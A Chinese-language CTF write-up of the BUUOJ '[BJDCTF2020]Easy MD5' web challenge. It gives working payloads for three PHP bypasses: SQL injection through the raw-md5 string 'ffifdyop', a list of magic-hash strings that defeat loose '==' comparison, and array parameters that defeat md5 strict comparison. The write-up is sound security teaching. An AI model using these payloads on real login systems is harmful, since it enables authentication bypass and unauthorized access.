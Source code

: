 ```yaml
---
title: "[BJDCTF2020]Easy MD5"
subtitle: ""
date: 2023-07-15T16:42:25+08:00
draft: false
toc:
    enable: true
weight: false
categories: ["CTF"]
tags: ["BUUOJ", "web", "PHP", "MD5"]
---
```


考察了各种MD5的绕过方法，包括数组绕过、弱类型比较绕过、md5($password, true)的绕过方式

## Level 1

![](image.png)

点进题目看到这样一个框，尝试了下，发现通过 ```GET``` 请求的 ```password``` 参数传参，那么这个自然就是密码了。

抓包发现在Headers里有这样一条Hint

![](image-1.png)

```SQL
select * from 'admin' where password=md5($pass,true)
```

查了查，```md5()``` 第二个参数被设为```true```时，函数返回的是原始二进制格式的16个字节，```false```时才是用0-f组成的字符串。

于是这里如果正好```md5```的结果可以组成```'or true```的形式，就可以实现注入。

常用的一个payload是
```
ffifdyop
```
md5结果为```276f722736c95d99e921722cf9ed621c```，作为二进制串时被解析为```'or'6<trash>```。

于是用这个payload绕过第一关

```
?password=ffifdyop
```

## Level 2

![](image-2.png)

第二关进来后查看网页源代码

```PHP
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
}
```

这里用的是双等号的弱比较，我们通过下面这几个字串送进md5，得到0e开头的科学计数法数字，通过双等号的判断。

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```

```
?a=QNKCDZO&b=240610708
```

## Level 3

一进去就给了源码

```PHP
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

这里三等号的强相等无法用前面的方法绕过。所以还有另外的一些PHP特性

```PHP
md5(array()) = null
sha1(array()) = null    
ereg(pattern,array()) = null vs preg_match(pattern,array) = false
strcmp(array(), "abc") = null
strpos(array(),"abc") = null
```

这样我们只要传两个数组进去让PHP比较，就会产生```null===null```的结果了。

payload:

```
param1[]=1&param2[]=2
```

![](image-3.png)